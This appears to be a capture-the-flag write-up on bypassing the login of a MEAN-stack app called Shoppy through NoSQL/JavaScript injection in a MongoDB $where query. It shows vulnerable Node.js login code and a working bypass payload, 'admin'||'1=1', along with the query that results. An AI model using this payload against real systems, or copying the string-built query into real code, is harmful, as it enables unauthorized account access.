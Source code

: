 Beyond Auth bypass

Shoppy come with MEAN stack {Mongodb,Express,Angular,Nodejs}

Endpoints
/login

We identified Nosql injection vulnerability 
In username parameter of login form in shoppy.htb

About Nosql injection in Nodejs

One thing many users are surprised about, is that Mongo supports JavaScript evaluation when a JS expression is placed into a $where clause or passed into a mapReduce or group function. So anywhere unfiltered input is passed to one of these clauses, we may find JavaScript injection.

JavaScript Injection Example

The app has a JavaScript injection in the querystring of the user lookup page. The (vulnerable) lookup code looks like this:

```javascript
let username = req.query.username;
query = { $where: `this.username == '${username}'` }
User.find(query, function (err, users) {
	if (err) {
		// Handle errors
	} else {
		res.render('userlookup', { title: 'User Lookup', users: users });
	}
});
```
As you can see, the username search string is pulled directly from the request without any filtering. The query is a where clause which passes in the username string directly. So, if we put valid JavaScript into the querystring, and match quotes correctly, we can have Mongo execute our JavaScript!

In this case, our goal is to find all valid users, so we'd like to pass in something which will always evaluate to true. If we pass in a string like ' || 'a'=='a the query will become $where: `this.username == '' || 'a'=='a'` which of course always evaluates to true and thus returns all results. With JS injection, there are many other things we might be able to achieve, and boolean checks are just one


Reference no 1 [https://nullsweep.com/a-nosql-injection-primer-with-mongo/](https://nullsweep.com/a-nosql-injection-primer-with-mongo/)

Reference no 2

**Javascript Evaluation Query in mongodb**

[https://www.mongodb.com/docs/manual/reference/operator/query-evaluation/](https://www.mongodb.com/docs/manual/reference/operator/query-evaluation/)


Debuging ShoppyApp

Runing shoppyapp localy and config the mongodb 

Vulnerable Code
```javascript
app.post('/login', async (req, res) => {
    const username = req.body.username;
    const password = req.body.password;
    if (username === undefined || password === undefined) {
        res.status(400).send('Bad Request');
        return;
    }
    const passToTest = require('crypto').createHash('md5').update(password).digest('hex');
    const query = { $where: `this.username === '${username}' && this.password === '${passToTest}'` };
    const result = await User.find(query).maxTimeMS(350);
    if (result.length === 0) {
        res.redirect('/login?error=WrongCredentials');
    } else {
        req.session.username = req.body.username;
        req.session.save((error) => {
            if (error) {
                res.redirect('/login?error=WrongCredentials');
            } else {
                res.redirect('/admin');
            }
        });
    }
});
```
**Payload**
{"username":"admin'||'1=1","password":""}

Set a breakpoint in line 86 and inject the payload the query will look like this
```javascript
$where: 'this.username === 'admin'||' 1=1' && this.password === 'd41d8cd98f00b204e9800998ecf8427e''
```
**Report**
admin OR 1=1 AND passwod in this query "1=1" will evaluates to true and return 1. If we get 0 it will redirect to Wrongcreds if we get 1 it will redirect to /admin endpoint from that point we successfully bypass the auth 
